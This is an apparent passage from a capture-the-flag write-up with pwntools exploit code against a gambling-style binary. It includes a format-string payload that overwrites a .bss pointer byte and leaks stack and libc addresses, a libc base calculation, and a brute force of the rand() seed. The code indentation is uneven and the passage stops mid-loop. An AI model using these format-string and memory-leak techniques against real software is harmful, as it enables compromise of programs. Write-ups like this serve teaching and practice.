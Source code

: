 ```python
    leak_libc = int(leak.split(b"|")[1],16)
    libc = ELF("./libc-2.23.so")
    
    # The libc pointer we leaked is a return pointer to `__libc_start_main` in offset 240
    libc_base = leak_libc - (libc.symbols['__libc_start_main']+240)
    io.recvuntil("Your money: ")
	  data = io.recv().split(b" ZWD")[0]
	  # Get buffer address to make sure we got it.
	  addr = int(data, 10)
```

So far all we did was overwrite the money address (`.bss` address) with the feedback's `.bss` address and leaked a valid stack pointer that will point to a return address when feedback is received and leaked a libc pointer and calculated it's base.

#### Going over the format string:

"%88c%13$hhn\|%10$p\|%29$p"

* %88c - This is just reading one character and padding it upto 88 characters because we need to overwrite the lower byte of the .bss pointer with 0x58.
* %13$hhn - hhn means overwrite the lowest byte when %13 is the offset of the pointer we write to on the stack.
* "\|" - pipe lines are used to split the leaks so it's easier to parse later on.
* %10$p - The stack pointer is at the offset of 10 pointers on the stack.
* %29$p - The libc pointer is at the offset of 29 pointers on the stack.

#### Seed brute force:

```python
libc_so = CDLL("./libc-2.23")
rand_nums = []
def main():
    #... (what we wrote before)
    # 5 random numbers seems enough since every one
    # of those is actually 2 random numbers generated.
    for _ in range(5):
        io.sendline("1")
        io.recvuntil("Your choice:")
        io.sendline("1")
        io.recvuntil("Lucky number: ")
        curr_rand = io.recvline()
        
        # Get the random number the program
        # generated and append it to a list
        rand_nums.append(int(curr_rand,10))
        io.recvuntil("Your money: ")
        data = io.recv().split(b" ZWD")[0]
        
        # Update the address so we can use it later
        addr = int(data, 10)
        
  # Try all possible 3 byte combinations for seed
  real_seed = -1
	for seed in range(0xffffff):
        count = 0
        libc_so.srand(seed)
        
        for i in range(5):
            curr_rand = libc_so.rand()
            # The program generates another rand when 
            # adding/substracting player's money
            libc_so.rand()
            if rand_nums[i] == curr_rand:
                count += 1
```